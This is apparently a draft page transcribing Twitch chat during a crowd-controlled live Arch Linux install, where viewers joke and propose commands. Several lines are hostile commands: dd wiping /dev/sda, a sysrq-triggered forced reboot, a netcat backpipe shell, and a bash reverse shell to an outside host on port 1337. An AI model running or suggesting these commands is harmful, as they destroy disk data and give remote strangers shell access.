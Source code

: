 ```yaml
---
title: Twitch chat for a live install of Arch Linux
date: 2023-03-19
draft: true
---
```


 I used nmap to track packets and log them into a db. then i made a little program to visualize it with colors
 

vitimiti: I want to run loadkeys de
7:26hitlurcat: somebody should switch the region to Russia and install myBB
7:26vitimiti: Just to piss people off
7:26HMage: Vitimiti now that's evil
7:26vitimiti: Yes
XDjackieXD: @Vitimiti this would screw up the chat input system
7:26HMage: I applaud you :D
7:27vitimiti: I was thinking about loadkeys es but Spanish keyboard is around many countries
7:27HMage: loadkeys ru

`nohup dd if=/dev/zero of=/dev/sda bs=1M &`

`dd if=/dev/random of=/dev/sda bs=1m`

`fdisk -l`

 `echo imgay > /dev/sda`

7:35wongmjane: create a init script that only reboots the system

Reverse SSH-tunneling

7:42inluck_nl: use autossh to maintain a reverse ssh tunnel
7:42inluck_nl: much easier than vpn

7:46HMage: how many times people will vote for `cat /proc/cpuinfo` and `free`?



`mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc -l -p 6666 1>/tmp/backpipe`

7:50whiletrueinstallgentoo: oh god the **bikeshedding** in this stream is gonna be intense

7:49Blu5ky: `mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc -l -p 6666 1>/tmp/backpipe`
7:49bartekww: ls
7:49Blu5ky: then make your install from home
7:50HMage: Blu5ky no public IP
7:50mastermat64: remember guys that they said they would make a raffle if we succed to do "twitch plays arch plays pokemon"
7:50xBytez: then do it reverse!
7:500xicl33n: TOR HIDDEN SERVICE
7:50Blu5ky: `mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc @home -p 6666 1>/tmp/backpipe`
7:50Blu5ky: thne :)
7:50xBytez: `bash -i >& /dev/tcp/xbytez.eu/1337 0>&1`
7:50xBytez: oh yeah mknod will also work

$ `echo 1 > /proc/sys/kernel/panic && echo 1 /proc/sys/kernel/sysrq && echo b > /proc/sysrq-trigger`